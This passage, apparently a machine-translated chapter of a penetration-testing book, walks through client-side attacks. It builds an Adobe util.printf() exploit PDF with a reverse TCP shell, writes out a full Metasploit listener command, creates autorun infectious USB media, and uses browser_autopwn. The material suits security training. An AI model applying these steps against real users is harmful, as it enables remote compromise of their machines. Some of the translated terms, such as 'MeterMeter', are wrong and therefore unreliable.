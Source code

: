 现在，选择选项 14 以使用；`Adobe util.printf() Buffer Overflow`利用：

![](assets/b8927c2f-82d2-49d1-afd2-56056ded6bd8.jpg)

选择选项 1 以使用 Windows Reverse TCP Shell 作为攻击的有效负载。然后，使用 LHOST 变量（本例中为`192.168.44.134`）和要侦听的端口（本例中为`443`）设置攻击者机器的 IP 地址：

![](assets/93ddb6b4-9348-4c67-8846-0fd45791fb31.jpg)

已在目录`/root/.set/`中生成 PDF 文件。现在我们需要使用任何可用的通讯媒介将其发送给受害者。同时，我们还需要启动一个侦听器，它将接受来自目标的反向 MeterMeter 连接。我们可以使用以下命令启动侦听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 443; run; exit -y"
```

在另一端，我们的受害者收到了 PDF 文件，并试图用 Adobe Reader 打开它。Adobe Reader 崩溃了；但是，没有任何迹象表明妥协的受害者：

![](assets/fcb784c8-734a-4d0e-b6c5-b309d1882543.jpg)

回到监听器端（在攻击者的系统上），我们得到了一个新的 MeterMeter 外壳！我们可以在下面的屏幕截图中看到这一点：

![](assets/6c38a461-3ddd-441c-8960-6132739efc13.jpg)

# 创建有感染力的媒体驱动器

打开 Social Engineering Toolkit，从主菜单中选择选项 3 Infective Media Generator，如下图所示。然后，选择选项 2 以创建标准 Metasploit 可执行文件：

![](assets/2705c2c4-e3a9-439a-861e-28887756da1e.jpg)

现在，选择选项 1 以使用 Windows Shell 反向 TCP 作为攻击的有效负载。然后，在 LHOST 变量和要侦听的端口中设置 IP 地址：

![](assets/df1566f2-d6ff-4539-87d6-400780f6e1fd.jpg)

社会工程工具包将在`/root/.set/`生成一个名为*自动运行*的文件夹。此文件夹可以复制到 USB 闪存驱动器或 CD/DVD ROM，以将其分发给受害者。同时，我们还需要设置一个侦听器（如前一节所示），然后等待受害者将受感染的媒体插入他的系统。

# 浏览器自动关闭

另一个有趣的用于执行客户端攻击的辅助模块是`browser_autopwn`。该辅助模块按以下顺序工作：

1.  攻击者执行`browser_autopwn`辅助模块。
2.  启动（在攻击者的系统上）承载有效负载的 web 服务器。有效负载可以通过特定的 URL 访问。
3.  攻击者将专门生成的 URL 发送给受害者。
4.  受害者试图打开 URL，当有效负载下载到他的系统上时。
5.  如果受害者的浏览器易受攻击，则攻击成功，攻击者获得 MeterMeter 外壳。

在`msfconsole`中，使用`auxiliary/server/browser_autopwn`选择`browser_autopwn`模块；命令，如下面的屏幕截图所示。然后，配置 LHOST 变量的值并运行辅助模块：

![](assets/4b3f48af-fe23-4a51-a760-125666cbfe64.png)
